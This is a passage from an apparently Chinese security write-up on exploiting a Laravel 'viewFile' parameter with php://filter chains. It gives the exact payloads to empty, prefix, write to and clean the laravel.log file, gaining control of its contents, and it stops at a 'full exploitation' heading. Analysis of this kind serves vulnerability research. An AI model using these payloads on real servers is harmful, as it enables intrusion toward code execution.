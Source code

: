 总结以上的坑点，发现都是`=`号匹配不上的问题，所以干脆直接将 payload 都进行一次`convert.quoted-printable-encode`编码。

写入
--

我们先来尝试写入一些普通字符

#### 清空 log 文件

```
viewFile: php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log

```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210114181338-2b61e990-5651-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210114181338-2b61e990-5651-1.jpg)

#### 给 log 添加一条前缀

```
viewFile: AA

```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210114181355-35cbc34c-5651-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210114181355-35cbc34c-5651-1.jpg)

#### 第三步：将需要写入的字符编码

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210114181412-3fd881c2-5651-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210114181412-3fd881c2-5651-1.jpg)

#### 第四步：将编码后的字符写入到 log 中

```
viewFile: =55=00=45=00=46=00=5A=00=54=00=45=00=39=00=42=00=52=00=41=00=3D=00=3D=00

```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210114181427-48dc0474-5651-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210114181427-48dc0474-5651-1.jpg)

#### 第五步：清空干扰字符

```
viewFile: php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log

```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210114181441-50c927ca-5651-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210114181441-50c927ca-5651-1.jpg)

成功写入了任意字符，log 文件的内容我们可控了。

完整利用
----
